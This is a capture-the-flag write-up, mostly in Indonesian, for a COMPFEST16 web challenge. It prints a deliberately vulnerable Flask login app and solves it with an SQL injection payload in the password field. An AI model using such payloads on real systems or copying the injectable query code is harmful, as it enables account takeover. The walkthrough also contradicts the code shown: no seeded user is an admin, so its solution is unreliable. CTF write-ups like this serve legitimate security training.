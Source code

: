# [500 pts] Baby Rizztekin
### Category: Web Exploitation

**Deskripsi:**
> This is the rizztekin prototype I built long ago, but meervix rewrote it, hmph! I'm sure this one is better.  
>  
> Author: rorre  
>  
> http://challenges.ctf.compfest.id:20003

**app.py:**
```python
from hashlib import sha256
from flask import Flask, redirect, request, g
import os
import sqlite3

FLAG = "COMPFEST16{FLAG}"
SECRET = os.getenv("SECRET") or "epicsecret"
app = Flask(__name__)


def init():
    db = sqlite3.connect("/tmp/app.db")
    db.execute(
        """CREATE TABLE IF NOT EXISTS users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT NOT NULL,
        password TEXT NOT NULL,
        is_admin INT DEFAULT 0 NOT NULL
        );"""
    )

    # DO NOT SAVE PLAINTEXT PASSWORD IN REAL LIFE!!!!!!!!!!!!!!!!!!
    # Use hashing and salting to save password
    db.execute(
        """INSERT OR IGNORE INTO users(id, username, password, is_admin) VALUES
            (1, 'rorre', 'meow', 0),
            (2, 'meervix', 'toksik', 0);
            """
    )
    db.commit()


def get_db():
    db = getattr(g, "_database", None)
    if db is None:
        db = g._database = sqlite3.connect("/tmp/app.db")
    return db


def query(sql: str, params: list[object] | None = None):
    cur = get_db().cursor()
    if not params:
        params = []

    results = []
    for s in sql.split(";"):
        cur.execute(s, params)
        results.append(cur.fetchall())

    get_db().commit()
    return results


@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, "_database", None)
    if db is not None:
        db.close()


def create_hash(value: str):
    return sha256((value + SECRET).encode()).hexdigest()


def parse_cookie(value: str):
    try:
        value, hash = value.split("-")
        if create_hash(value) != hash:
            return False, None
        return True, value
    except:
        return False, None


@app.get("/")
def index():
    valid, user = parse_cookie(request.cookies.get("user_id", ""))
    if not valid:
        user = "Guest"

    bottom = "<a href='/login'>Login</a>"
    if user != "Guest":
        row = query("SELECT username, is_admin FROM users WHERE id = ?", [user])[0]
        if row:
            user = row[0][0]
            bottom = "<a href='/logout'>Logout</a>"
            if row[0][1] == 1:
                bottom += f"<p>Flag: {FLAG}</p>"
        else:
            user = "Guest"

    return f"<p>Hello, {user}.</p>{bottom}"


@app.get("/logout")
def logout():
    resp = redirect("/")
    resp.delete_cookie("user_id")
    return resp


@app.get("/login")
def login():
    return """
<form method="POST">
    <label for="username">Username:</label><br>
    <input type="text" id="username" name="username"><br>
    
    <label for="password">Password:</label><br>
    <input type="password" id="password" name="password"><br><br>
    
    <input type="submit" value="Submit">
</form>
"""


@app.post("/login")
def process_login():
    username = request.form.get("username")
    password = request.form.get("password")
    if not all([username, password]):
        return redirect("/login")

    row = query(f"SELECT id FROM users WHERE username = '{username}' AND password = '{password}'")[0]
    if not row:
        return redirect("/login")

    resp = redirect("/")
    resp.set_cookie("user_id", str(row[0][0]) + "-" + create_hash(str(row[0][0])))
    return resp


if __name__ == "__main__":
    init()
    app.run()
```

### Solusi

Dengan membuka link [challenge](http://challenges.ctf.compfest.id:20003), didapatkan halaman web: 

![Main page](https://github.com/FieryBanana101/COMPFEST-16_TeamBaruBelajarCTF/blob/main/asset/Screenshot%202024-08-14%20234128.png)

Kemudian setelah meng-klik tombol login, didapatkan halaman login:  

![Login page](https://github.com/FieryBanana101/COMPFEST-16_TeamBaruBelajarCTF/blob/main/asset/Screenshot%202024-08-14%20234135.png)

Source code python dari website menggunakan sql sebagai database, kemungkinan besar dapat kita lakukan sql injection pada laman login.

Untuk membuktikannya mari perhatikan dua fungsi berikut:
```python
def process_login():
    username = request.form.get("username")
    password = request.form.get("password")
    if not all([username, password]):
        return redirect("/login")

    row = query(f"SELECT id FROM users WHERE username = '{username}' AND password = '{password}'")[0]
    if not row:
        return redirect("/login")

    resp = redirect("/")
    resp.set_cookie("user_id", str(row[0][0]) + "-" + create_hash(str(row[0][0])))
    return resp

@app.get("/")
def index():
    valid, user = parse_cookie(request.cookies.get("user_id", ""))
    if not valid:
        user = "Guest"

    bottom = "<a href='/login'>Login</a>"
    if user != "Guest":
        row = query("SELECT username, is_admin FROM users WHERE id = ?", [user])[0]
        if row:
            user = row[0][0]
            bottom = "<a href='/logout'>Logout</a>"
            if row[0][1] == 1:
                bottom += f"<p>Flag: {FLAG}</p>"
        else:
            user = "Guest"

    return f"<p>Hello, {user}.</p>{bottom}"
```
Fungsi process_login() dipanggil saat kita melakukan submit pada halaman login. Fungsi akan melakukan query sql dengan statement:
```sql
SELECT id FROM users WHERE username = '{username}' AND password = '{password}'
```

Input dari user untuk query tidak di validasi sehingga bisa saja langsung dilakukan sql injection. Namun, ada syarat tambahan yang perlu kita lakukan.

Pada fungsi index(), terlihat bahwa flag akan ditampilkan jika row[0][1] = 1. row sendiri merupakan hasil dari query sql yang mengambil column 'username' dan 'is_admin' dari user yang memiliki id = user_id.

Sementara 'user_id' adalah cookies yang didapat dari proses login, artinya 'user_id' ditetapkan setelah kita melakukan login.

> row[0] : hasil query dari user pertama yang memenuhi kondisi (kemungkinan ada lebih dari satu user)  
> row[0][0] : username dari user pertama yang memiliki id = user_id  
> row[0][1] : nilai 'is_admin' dari user pertama yang memiliki id = user_id

Sehingga kesimpulannya, agar flag ditampilkan kita harus login dengan akun yang memiliki nilai 'is_admin' = 1.

Maka akan kita masukkan payload injection ke password, username dapat diisi string apa saja selain string kosong. Payload yang sesuai yaitu:
```sql
' OR '1'='1' AND is_admin = '1
```

> **Note:** Username tidak boleh string kosong karena ada pengecekan pada process_login(), jika username atau password kosong maka akan otomatis login dengan user 'guest'.

Jika kita masukkan payload ke query di fungsi process_login(), maka query akan menjadi:
```sql
SELECT id FROM users WHERE username = '' AND password = '' OR '1'='1' AND is_admin = '1'
```

Query tersebut dapat disederhanakan menjadi hanya:
```sql
SELECT id FROM users WHERE is_admin = '1'
```

Sehingga setelahnya, web akan menampilkan flag:  
(gambar flag)

> Flag: **COMPFEST16{}**
